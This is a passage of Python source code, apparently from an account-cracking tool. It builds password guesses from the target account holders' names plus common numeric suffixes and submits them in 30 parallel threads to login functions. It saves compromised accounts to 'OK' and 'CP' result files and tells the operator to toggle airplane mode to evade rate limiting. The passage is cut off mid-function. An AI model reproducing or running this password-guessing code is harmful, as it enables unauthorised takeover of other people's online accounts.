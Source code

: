 		name()
	elif passmen in ['3','03']:
		name2()
	else:
		passmenu()
		
def first():
	clear()
	print(logo);print( ' [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n')
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = ['445566']
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(free,idf,pwv)
			else:
				pool.submit(crack,idf,pwv)
def name():
	clear()
	print(logo);print( '\n [] OK Result Saved To : \033[1;92mOK/%s\033[1;97m\n [] CP Result Saved To : \033[1;91mCP/%s\033[1;97m\n [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n'%(okc,cpc))
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			try:
				idf,nmf = yuzong.split('|')
				xz = nmf.split(' ')
				if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
					pwv = [name, xz[0]+xz[0],xz[0]+xz[1]+"12345", xz[0]+xz[1]+"786",xz[0]+xz[1]+"123",xz[0]+xz[1]+"1234"]
				else:
					pwv = [name, xz[0]+xz[0],xz[0]+xz[1]+"12345", xz[0]+xz[1]+"786",xz[0]+xz[1]+"123",xz[0]+xz[1]+"1234"]
				if 'mobile' in method:
					pool.submit(crack,idf,pwv)
				elif 'free' in method:
					pool.submit(free,idf,pwv)
				else:
					pool.submit(crack,idf,pwv)
			except:
				pass
def name2():
	clear()
	print(logo);print( '\n [] OK Result Saved To : \033[1;92mOK/%s\033[1;97m\n [] CP Result Saved To : \033[1;91mCP/%s\033[1;97m\n [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n'%(okc,cpc))
	with tred(max_workers=30) as pool:
		for yuzong in id2: